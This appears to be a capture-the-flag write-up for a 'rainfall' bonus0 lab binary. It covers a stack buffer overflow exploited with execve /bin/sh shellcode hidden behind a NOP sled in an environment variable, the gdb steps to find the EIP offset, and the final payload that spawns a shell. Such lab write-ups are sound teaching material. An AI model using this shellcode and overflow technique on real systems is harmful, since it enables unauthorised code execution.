 The program take 20 char on the first buffer and add the second (2 times?), and segfault

The overflow is on the second buffer

We need to use an env variable for the shellcode because the buffer is too small

	export payload=$(python -c 'print "\x90"*400+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')

Get the address of the nopsled in the env

	(gdb-peda)$ x/400xg ((char **)environ)

"0xffffde1a" for example

For build our payload in one line, the two inputs need to be splited by a "\n", but we need to know the size of the read for put the "\n" in the last character

	0x080484c8 <+20>:	mov    DWORD PTR [esp+0x8],0x1000 <--- third arg
	0x080484d0 <+28>:	lea    eax,[ebp-0x1008]
	0x080484d6 <+34>:	mov    DWORD PTR [esp+0x4],eax <--- second arg
	0x080484da <+38>:	mov    DWORD PTR [esp],0x0 <--- first arg
	0x080484e1 <+45>:	call   0x8048380 <read@plt> <--- read() call

The size of the read is "0x1000" = 4096

So, the start of our payload will be (B * 4095) + "\n" + (second input)

Now, search the exact position of EIP in our payload

	python -c 'print "B"*4095+"\n"+"A"*13+"aaaa"+"B"*30' > file

	(gdb-peda)$ r < file
	Starting program: /home/nico/42/rainfall/bonus0/Ressources/bonus0 < file
	 -
	 -
	BBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAaaaaBBB AAAAAAAAAAAAAaaaaBBB

	Program received signal SIGSEGV, Segmentation fault.
	....
	EBP: 0x41414141 ('AAAA')
	ESP: 0xffffd340 --> 0x424242 ('BBB')
	EIP: 0x61616161 ('aaaa')
	....

The offset is good, just replace "aaaa" by the address of the nopsled (0xffffde1a)

	python -c 'print "B"*4095+"\n"+"A"*13+"\x1a\xde\xff\xff"+"B"*30' > file

	(gdb-peda)$ r < file
	Starting program: /home/nico/42/rainfall/bonus0/Ressources/bonus0 < file
	 -
	 -
	BBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAA����BBB AAAAAAAAAAAAA����BBB
	process 117382 is executing new program: /usr/bin/dash
	[Inferior 1 (process 117382) exited normally]
	Warning: not running

